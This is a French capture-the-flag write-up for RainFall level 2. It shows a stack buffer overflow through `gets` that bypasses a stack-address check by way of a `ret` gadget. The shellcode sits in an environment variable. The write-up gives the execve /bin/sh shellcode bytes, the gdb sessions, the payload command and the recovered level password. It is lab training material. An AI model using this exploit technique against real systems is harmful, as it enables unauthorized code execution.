 # Level 2

Ce binaire utilise aussi la fonction `gets` comme le niveau 1, cependant le programme à une protection qui vérifie si l'adresse de EIP n'est pas une adresse de la stack, commencant donc par `0xb...`, mais nous pouvons `jump` à l'adresse de return et la modifié par l'adresse de notre shellcode.

Nous pouvons importé notre shellcode dans l'`env` et lors du `ret` jump à cette adresse.

```shell
~ export SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"'`
~ gdb level2
[...]
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
[...]
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
[...]
   0x0804853e <+106>:	ret
End of assembler dump.
(gdb) b *0x08048542
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) info variable env
All variables matching regular expression "env":

Non-debugging symbols:
0xb7fd2e04  __environ
0xb7fd2e04  _environ
0xb7fd2e04  environ
(gdb) x/s *((char**)environ+0)
0xbffff88e:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Phn/shh//bi\211\343\231RS\211\341\260\v\315\200""
(gdb) quit
~ python -c 'print "B"*80 + "\x3e\x85\x04\x08" + "\x8e\xf8\xff\xbf"' > /tmp/level2
~ level2@RainFall:~$ cat /tmp/level2 - | ./level2
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB>BBBBBBBBBBBB>����
pwd
/home/user/level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

